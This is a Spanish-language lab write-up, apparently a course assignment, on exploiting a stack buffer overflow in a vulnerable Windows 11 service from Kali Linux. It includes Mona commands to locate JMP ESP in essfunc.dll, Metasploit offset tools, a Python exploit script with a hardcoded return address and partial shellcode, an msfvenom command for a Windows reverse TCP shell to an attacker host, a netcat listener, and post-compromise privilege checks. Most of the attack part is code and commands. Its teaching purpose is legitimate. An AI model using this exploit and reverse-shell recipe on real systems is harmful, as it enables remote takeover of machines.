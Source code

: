 ```yaml
---
title: Trabajo Buffer Overflow
date: 2024-11-04 00:21:00 -05:00
categories: [web, Overflow]
tags: [buffer, overflow]  # tag names should always be lowercase
---
```




# Requerimientos del Trabajo Buffer Overflow

```markdown

## Información del Entorno

- **Sistema objetivo (Windows 11)**:
  - IP: `192.168.1.12`
  - Sistema: Windows 11 con un servicio vulnerable

- **Sistema atacante (Kali Linux)**:
  - VM en el mismo entorno de red
  - Escucha conexiones TCP en el puerto `4444`

## Requerimientos de la Tarea

### Objetivo 1: Verificar Direcciones `JMP ESP` para Explotar el Buffer Overflow

Identificar y verificar, si alguna de las direcciones `JMP ESP` en el módulo vulnerable del sistema Windows 11 permite redirigir el flujo de ejecución hacia el shellcode. Esto permitirá ejecutar el exploit y obtener una conexión remota.

#### Paso 1.1: Identificar Direcciones `JMP ESP`

Se usara **Mona** en **Immunity Debugger** para buscar la instrucción `JMP ESP` en el módulo vulnerable del Windows 11, que en este caso es `essfunc.dll`. Estas direcciones nos permitirán redirigir la ejecución hacia la dirección de memoria donde se encuentra nuestro shellcode.

Ejecutamos el siguiente comando en Immunity Debugger en Windows:

```plaintext
!mona find -s "\xff\xe4" -m essfunc.dll
```

La salida de este comando nos da una lista de direcciones `JMP ESP` en `essfunc.dll`. Se tomara nota de estas direcciones para probarlas en el exploit.

#### Paso 1.2: Calcular el Offset para Sobrescribir el EIP

Para sobrescribir el **EIP** y redirigir el flujo de ejecución correctamente, debemos calcular el desplazamiento (offset) exacto en el buffer. Para hacerlo, usaremos herramientas de Metasploit desde Kali Linux.

1. **Generamos un patrón de prueba** de 400 bytes:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
   ```
2. Ejecutamos este patrón en el programa vulnerable en la laptop Windows 11 para provocar un crash.
3. Cuando el programa se detenga, verificamos el valor que sobrescribió el EIP y calculamos el offset:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <VALOR_EIP>
   ```
   
Este valor será el tamaño necesario para llegar a sobrescribir el EIP y así redirigir la ejecución al shellcode.


#### Paso 1.3: Crear el Payload para el Exploit

Con el offset y la dirección `JMP ESP` confirmada, podemos construir el exploit en Python. Este exploit inyectará un payload que contiene un shellcode para obtener una conexión TCP inversa desde la laptop Windows hacia Kali Linux.


```python
import socket
import struct

# Configuración de conexión
ip = "192.168.1.12"  # IP del sistema Windows 11
port = 9999          # Cambia este puerto al puerto donde el servicio vulnerable está escuchando

# Configuración del payload
offset = <OFFSET_CALCULADO>  # Reemplaza con el valor obtenido en el cálculo del offset
buffer = b"A" * offset
jmp_esp = struct.pack("<I", 0x625011af)  # Dirección de JMP ESP en el módulo essfunc.dll
nop_sled = b"\x90" * 16  # NOP sled para estabilizar el shellcode

# Generación del shellcode con msfvenom (en Kali Linux):
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f python -b "\x00"
shellcode = (
    b"\xdb\xc4\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\x31\x50\x17\x03\x50\x17"
    # Este es solo un ejemplo de shellcode; reemplaza por el generado
)

# Estructura del payload
payload = buffer + jmp_esp + nop_sled + shellcode

# Enviar el payload al servicio vulnerable en la máquina Windows 11
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    s.send(payload)
```

Este código envía un buffer que sobrescribe el EIP con la dirección `JMP ESP`, redirigiendo la ejecución hacia nuestro shellcode, que establece una conexión TCP inversa con Kali Linux.





### Objetivo 2: Explicar el Funcionamiento de la Conexión TCP Reversa

Una **conexión TCP reversa** es una técnica en la que el sistema comprometido (Windows 11) inicia una conexión hacia el atacante (Kali Linux). Esto es útil en muchos casos porque los firewalls permiten conexiones salientes, lo cual facilita el control de la máquina víctima.

#### Setup de Laboratorio para Conexión TCP Reversa

Para esta práctica, configuramos una VM **Kali Linux** que actuará como el atacante y una laptop **Windows 11** que será la víctima. La máquina Kali Linux escuchará en el puerto `4444` y esperará una conexión que será iniciada desde la máquina Windows cuando se ejecute el shellcode.

**Diagrama de Conexión**:

```plaintext
+-------------------+                   +-------------------+
|     Kali Linux    | <----TCP----->    |     Windows 11    |
| (Listener activo) |                   |  (Vulnerable)     |
+-------------------+                   +-------------------+
```

Para escuchar la conexión en **Kali Linux** usamos **Netcat**:

```bash
nc -lvnp 4444  # Escuchar en el puerto 4444
```

Cuando el exploit se ejecute en la máquina Windows, esta se conectará a Kali Linux en el puerto 4444, proporcionando una shell remota al atacante.




### Objetivo 3: Verificación de los Permisos en la Shell Obtenida

Una vez obtenida la conexión TCP inversa y acceso a la shell, necesitamos verificar los permisos del usuario en la máquina Windows 11. Esto nos permitirá saber si tenemos acceso administrativo o acceso restringido.

#### Paso 3.1: Comprobar Privilegios del Usuario en la Máquina Víctima

Dentro de la shell remota en Windows 11, ejecutamos los siguientes comandos para obtener información sobre el usuario y los permisos:

1. **Verificar el usuario activo**:
   ```cmd
   whoami
   ```
   Este comando nos muestra el nombre del usuario activo en la máquina comprometida.

2. **Listar los grupos y permisos del usuario**:
   ```cmd
   net user
   ```
   Esto permite verificar si tenemos privilegios elevados (de administrador) o si necesitamos realizar una **escalada de privilegios**.

Con estos comandos, podemos confirmar si tenemos acceso de administrador o si será necesario aplicar técnicas adicionales para escalar privilegios.



## Conclusión

1. item Este procedimiento ha cubierto todos los pasos necesarios para explotar una vulnerabilidad de buffer overflow en una máquina Windows 11 y obtener una conexión TCP inversa desde Kali Linux.

2. item Estos pasos incluyen la identificación de direcciones `JMP ESP`, el cálculo del offset, la construcción de un payload con un shellcode de conexión reversa y la verificación de permisos en la shell obtenida.


```
```

